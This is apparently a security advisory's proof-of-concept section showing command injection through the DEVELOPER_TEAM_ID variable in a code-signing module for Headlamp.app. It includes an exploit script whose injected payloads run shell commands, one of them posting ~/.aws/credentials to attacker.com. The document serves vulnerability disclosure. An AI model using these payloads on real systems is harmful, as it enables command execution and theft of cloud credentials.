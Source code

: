 ## Proof of Concept

### Interactive Exploit
```javascript
// exploit.js
const { execSync } = require('child_process');

const payloads = [
  'TeamID" && id > /tmp/exploit_output #',
  'TeamID" | curl -X POST https://attacker.com/exfil -d @~/.aws/credentials #',
  'TeamID" && open -a Calculator #'
];

payloads.forEach(p => {
  process.env.DEVELOPER_TEAM_ID = p;
  try {
    require('./codeSign')({ app: '/Applications/Headlamp.app' });
    console.log(`Payload executed: ${p}`);
  } catch (e) {
    console.log(`Payload failed: ${p}`);
  }
});
```

## Vulnerability Flow

```mermaid
sequenceDiagram
    participant A as Attacker
    participant E as Environment
    participant N as Node.js
    participant S as Shell
    
    A->>E: Set malicious DEVELOPER_TEAM_ID
    E->>N: process.env injection
    N->>S: execSync("codesign ... TeamID malicious ")
    S->>S: Execute injected command
    S->>A: Return command output
```

## Step-by-Step Technical Flow

1. **Command Construction**:
   ```javascript
   `codesign ... ${teamID} ... ${config.app}`
   ```

2. **Shell Interpretation**:
   - Node.js spawns `/bin/sh`
   - Processes quotes, semicolons, and other metacharacters
   - Splits command into multiple operations
